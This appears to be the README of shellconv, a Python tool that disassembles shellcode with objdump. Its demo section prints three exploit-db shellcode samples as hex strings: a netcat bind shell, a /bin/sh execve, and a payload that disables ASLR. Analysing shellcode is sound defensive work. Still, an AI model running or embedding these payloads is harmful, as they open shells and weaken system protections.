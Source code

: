 # shellconv
Small tool for disassembling shellcode (using [objdump](https://linux.die.net/man/1/objdump))

```
usage: shellconv.py [-h] --infile INFILE [--arch ARCH] [--outfile OUTFILE]

arch: defined as in objdump -m, default: i386
```
---

__DISCLAIMER__

This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.

## Installation
Requirements: Python3 (with PIP), objdump

Install the dependencies by:

```console
pip install -r requirements.txt
```

# Demo

1) https://www.exploit-db.com/exploits/36921/

expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>

![](img/expdb1-32b.png)

<br/><br/>

2) https://www.exploit-db.com/exploits/36858/
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>

<br/><br/>

3) https://www.exploit-db.com/exploits/36637/
expdb3.shc :
<pre>
char shellcode[] = "\xeb\x22\x5b\x31\xc0\x88\x43\x23\x6a\x05\x58"
"\x6a\x02\x59\xcd\x80\x89\xc3\x6a\x04\x58\xeb\x36\x59\x6a\x02\x5a
\xcd\x80\x6a\x01\x58\x31\xdb\xcd\x80\xe8\xd9\xff\xff\xff\x2f\x70
\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72
\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63
\x65\x58\xe8\xc5\xff\xff\xff\x30\x0a";
</pre>

